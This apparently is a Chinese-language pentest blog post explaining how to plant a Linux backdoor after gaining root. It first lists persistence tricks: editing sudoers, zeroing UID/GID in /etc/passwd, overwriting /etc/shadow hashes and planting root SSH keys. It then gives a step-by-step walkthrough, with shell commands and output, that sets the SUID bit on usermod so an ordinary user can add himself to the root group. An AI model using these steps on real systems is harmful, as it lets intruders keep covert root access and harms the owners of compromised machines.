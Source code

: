 +++
date = "2016-04-18T20:03:07+08:00"
description = ""
draft = false
tags = ["pentest"]
title = "Linux之USID后门"
topics = ["Pentest"]

+++

SUID可以用来做后门，前提是你已经获取了root权限，且给予s权限的文件必须为二进制：

***

## 为二进制文件添加s权限从而提升为root权限方法：
1. 写sudoers添加用户  `//最佳方案`  
2. vim /etc/passwd    `//将uid和gid改为0`
3. vim /etc/shadow    `//密文覆盖`  
4. vim root .ssh/证书文件   `.ssh这个文件夹和证书的权限要正确，要和原来一致`

***

## SUID:这个东西主要是留后门

#### 在root权限下给usermod一个s权限：

    # which usermod   //得到usermod的路径                             
    /usr/sbin/usermod
    # chmod u+s /usr/sbin/usermod
    # ls -l /usr/sbin/usermod
    -rwsr-x---. 1 root root 98680 Dec  7  2011 /usr/sbin/usermod

#### usermod给其他人一个x权限：
    [root@localhost ~]# chmod o+x /usr/sbin/usermod
    [root@localhost ~]# ls -l /usr/sbin/usermod
    -rwsr-x--x. 1 root root 98680 Dec  7  2011 /usr/sbin/usermod

#### 切换到普通用户wyb：
```
	[wyb@localhost ~]$ id wyb
    uid=500(wyb) gid=500(wyb) groups=500(wyb)
	[wyb@localhost ~]$ usermod -g root wyb
	[wyb@localhost ~]$ id wyb
    uid=500(wyb) gid=0(root) groups=0(root)
	[wyb@localhost ~]$ exit
```

#### 验证：	
	重新用wyb连接，此时即为root权限
	[wyb@localhost ~]$ cd /root  //若能切换到此目录即证明确实获得了root权限
    [wyb@localhost root]$ ls
    anaconda-ks.cfg  install.log  install.log.syslog